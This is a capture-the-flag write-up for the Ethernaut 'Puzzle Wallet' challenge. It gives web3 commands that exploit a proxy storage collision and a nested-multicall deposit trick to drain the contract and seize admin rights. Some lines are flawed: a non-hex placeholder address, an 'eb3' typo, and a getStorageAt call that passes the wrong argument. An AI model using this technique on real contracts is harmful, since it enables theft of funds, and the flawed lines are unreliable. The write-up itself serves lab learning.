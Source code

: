 # Solution to challenge 24 : Puzzle Wallet

Our goal here is to claim ownership of the PuzzleProxy contract. First we need to understand the Proxy structure of the challenge, the slot arrangement in both contracts should be the same because the slots are mapped. 

As a result, when the proxy contract makes a call to the implementation contract, the proxy's storage variables are modified and the call is made in the context of the proxy.

```
SLOT    PuzzleProxy   |  PuzzleWallet
----------------------------------------------------------------------------------
0       pendingAdmin     owner

1       admin            maxBalance
```        

This means that if we change the value of `pendingAdmin` in ``PuzzleProxy`` contract , the `owner` value will be changed in `PuzzleWallet` contract.

So let's think about our objective : change `admin` value in `PuzzleProxy` to player's address, there is no way to change it through ``PuzzleProxy``, so let's aim at changing `maxBalance` value which shares the "same storage slot".

There are 2 ways to alter this value :

1. `init()` function : not exploitable because it **has already been initialized**
2. `setMaxBalance()` function : exploitable but we need the contract's balance to be equal to zero

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet1.png)

Unfortunately, by default the contract's balance is equal to `0.001 ether` :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet2.png)

We can reduce its balance through `execute()` function which is equivalent to a withdraw function :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet3.png)

Sadly the contract keeps track of what we deposited, that's why we will need to use the last and most complex function available : `multicall()` 

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet4.png)

This function allows us to execute multiple functions in 1 transaction. Thus, we can abuse of the fact that even if ETH is spent, `msg.value` will remain the same and take the opportunity to make a double call to the `deposit` function. The developers were aware of this exploitable issue and made a protection by checking the **selector** (first 4 bytes of the function signature).

But we can bypass this protection if we **"pack"** one deposit inside another `multicall`

Let's sum up all the actions required together, we will only used web3 js commands :

##### 1. Claim ownership of `PuzzleWallet` contract by changing `pendingAdmin` value to the player's address

We first calculate the signature of the `proposeNewAdmin` function :

```
web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)");

'0xa6376746'
```

Then the signature of the parameter `address` with player's address : 

```
web3.eth.abi.encodeParameter("address", player);

'0x000000000000000000000000cabcdefghijkl123456123451234567123456789'
```

We put them together and send this transaction data :

```
contract.sendTransaction({ data: '0xa6376746000000000000000000000000cabcdefghijkl123456123451234567123456789' });
```

After that, the `owner`'s  value of `PuzzleWallet` is now your player's address.

##### 2. Add our player's address to the whitelist in order to interact with the different functions

```
contract.addToWhitelist(player);
```

##### 3. Prepare the data bytes required for the  ``multicall`` and `deposit` exploit, do not forget to include the parameters expected by the functions

``deposit()`` function signature :

```
deposit = web3.eth.abi.encodeFunctionSignature("deposit()");

'0xd0e30db0'
```

`multicall(bytes[])` function signature :

```
multicall = eb3.eth.abi.encodeFunctionSignature("multicall(bytes[])");

'0xac9650d8'
```

Signature of the `deposit` call as a  `multicall` parameter :

```
web3.eth.abi.encodeParameter('bytes[]', [deposit]);

'0x0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000';
```

Again, we add the `deposit` function signature  :

```
packedDeposit = '0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000';
```

##### 4. Call `multicall` function with the prepared data bytes with a msg of at least ``0.001 ether``

```
contract.multicall([deposit, packedDeposit], { value: toWei('0.001') });
```

##### 5. As a result, the contract has now a balance equal to `0.002 ether`, we called twice the deposit function and increased our "available balance" while only depositing `0.001 ether`

```
(await getBalance(instance)).toString();

'0.002'
```

##### 6. We can now withdraw `0.002 ether` from the contract using `execute` function and make the contract's balance empty

```
contract.execute(player, toWei('0.002'), '123');
```

##### 7. All the protections are now gone, we can now change `maxBalance` value to finally become the owner of the `PuzzleProxy` contract

```
contract.setMaxBalance('1116821831790595974849218070050646934865281521986');
```


#### BONUS : Retrieve the address of the proxy's contract

Once we get our game instance, we only know the `PuzzleWallet` 's contract address. 

But according to **EIP-1967** : To avoid clashes in storage usage between the proxy and logic contract, the address of the logic contract is typically saved in a specific storage slot guaranteed to be never allocated by a compiler.

For OpenZeppelin's contracts it is at slot ``0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc``

As a result, we can get our address by getting the data at this specific storage slot :

`web3.eth.getStorageAt(instance,"0xcabcdefghijkl123456123451234567123456789")`

Source : https://eips.ethereum.org/EIPS/eip-1967